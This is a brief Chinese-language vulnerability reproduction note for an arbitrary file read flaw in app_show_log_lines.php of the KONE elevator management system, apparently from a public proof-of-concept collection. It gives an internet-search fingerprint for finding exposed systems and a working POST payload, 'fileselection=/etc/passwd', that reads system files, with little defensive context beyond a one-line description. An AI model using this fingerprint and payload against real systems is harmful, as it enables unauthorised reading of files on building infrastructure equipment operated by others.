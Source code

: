 # KONE 通力电梯管理系统 app_show_log_lines.php 任意文件读取漏洞

## 漏洞描述

KONE 通力电梯 app_show_log_lines.php文件过滤不足导致任意文件读取漏洞

## 漏洞影响

```
KONE 通力电梯管理系统
```

## 网络测绘

```
"KONE Configuration management"
```

## 漏洞复现

主页面

![image-20220519184439370](./images/202205191844461.png)

发送POST请求包

```
fileselection=/etc/passwd
```

![image-20220519184600379](./images/202205191846469.png)